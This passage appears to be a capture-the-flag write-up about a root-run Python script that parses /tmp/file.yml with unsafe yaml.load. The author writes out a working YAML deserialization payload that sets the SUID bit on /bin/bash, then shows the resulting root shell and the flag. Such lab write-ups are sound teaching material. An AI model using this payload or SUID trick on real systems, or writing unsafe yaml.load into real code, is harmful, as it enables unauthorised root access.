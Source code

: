 ```
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```

It opens `file.yml`  in `/tmp` and then deletes it as root :)

After some googling I found yaml deserialization attack in python:

`https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter`

so I have to create `file.yml` which will be a suid binary giving root:

- I create `shell.yml` with `!!python/object/apply:os.system ["chmod +s /bin/bash"]`

- copy  it to `/tmp/file.yml`

- after one minute type `/bin/bash -p` to become root

- read a flag

```
$ /bin/bash -p
bash-4.3# id
uid=1002(imsau) gid=1002(imsau) euid=0(root) egid=0(root) groups=0(root),1002(imsau)
bash-4.3# cat /root/root.txt
5d45f08ee939521d59247233d3f8faf
bash-4.3# 
```


